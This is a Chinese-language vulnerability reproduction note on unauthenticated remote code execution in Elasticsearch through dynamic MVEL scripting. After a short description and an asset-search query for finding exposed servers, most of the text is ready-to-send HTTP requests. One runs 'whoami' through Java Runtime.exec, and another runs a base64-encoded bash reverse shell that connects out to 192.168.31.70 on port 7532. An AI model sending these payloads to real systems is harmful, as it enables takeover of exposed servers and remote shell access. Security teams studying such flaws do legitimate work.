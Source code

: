 # Elasticsearch存在未授权访问导致的RCE

# 一、漏洞描述
Elasticsearch向使用者提供执行脚本代码的功能，支持mvel, js,groovy,python,和native语言，默认脚本语言为mvel。由于mvel语言功能较为强大，可以直接执行java代码，而且官方默认没有关闭用户可通过http操控这一功能的接口（script.disable_dynamic），从而导致恶意用户可以通过这个功能远程执行任意Java代码。

# 二、影响版本
Elasticsearch

# 三、资产测绘
```plain
app="Elasticsearch"
```

![1730009233361-9686bf63-9f51-42ac-819e-9bd09b99b929.png](./img/TxmiYf429ZjwRJZL/1730009233361-9686bf63-9f51-42ac-819e-9bd09b99b929-467988.png)

# 三、漏洞复现
1、利用该漏洞要求Elasticsearch中有数据，所以先创建一条数据

```plain
POST /website/blog/ HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

{
    "name": "colleget"
}
```

![1730009268228-6be55838-f010-42a4-af81-58585f9a0c3b.png](./img/TxmiYf429ZjwRJZL/1730009268228-6be55838-f010-42a4-af81-58585f9a0c3b-040576.png)

2、执行命令

```plain
POST /_search?pretty HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 372

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"whoami\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
    }
}
```

![1730009338548-ecd2b298-f883-4d55-a4f4-f1f9a5899149.png](./img/TxmiYf429ZjwRJZL/1730009338548-ecd2b298-f883-4d55-a4f4-f1f9a5899149-827979.png)

3、反弹shell

```plain
POST /_search?pretty HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 372

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"bash -c {echo,YmFaaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjMxLjcwLzc1MzIgMD4mMQ==}|{base64,-d}|{bash,-i}\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
    }
}

```

![1730009417293-ec63d02a-a5e8-4a7d-b995-fdeec28609ca.png](./img/TxmiYf429ZjwRJZL/1730009417293-ec63d02a-a5e8-4a7d-b995-fdeec28609ca-440486.png)

![1730009433078-7c95d622-3e9c-42d4-b0f8-62007c8a37a9.png](./img/TxmiYf429ZjwRJZL/1730009433078-7c95d622-3e9c-42d4-b0f8-62007c8a37a9-907022.png)



> 更新: 2024-11-27 10:04:43  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/kg7yzqstede6zu7x>